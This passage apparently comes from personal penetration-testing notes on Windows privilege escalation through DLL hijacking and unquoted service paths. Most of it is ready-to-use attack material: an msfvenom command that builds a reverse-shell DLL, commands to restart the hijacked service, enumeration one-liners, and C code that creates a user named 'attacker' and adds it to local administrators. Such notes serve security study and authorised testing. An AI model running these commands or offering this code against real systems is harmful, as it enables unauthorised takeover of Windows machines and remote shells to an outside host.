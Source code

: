 ```cpp
        break;
    }
    return TRUE;
}
```

compile on kali
```
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

or revers shell as the running service user
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f dll > helper.dll
```

locate in the right path and restsrt the service
```
sc.exe stop <service name>
sc.exe start <service name>
```
#### Unquoted Service Paths

when there are services that running and in the name of the path there are space between two words, we can abuse the way that the the service search for the exe and create our own exe
for example:
```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

tools:

- enumerate running and stopped services
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName

# run in cmd
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """

# evil-winrm
services
```

- check under which user this service is running 
```
sc.exe qc <service name>
```

- add user as local admin script
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user attacker password123! /add");
  i = system ("net localgroup administrators attacker /add");
  
  return 0;
}
```
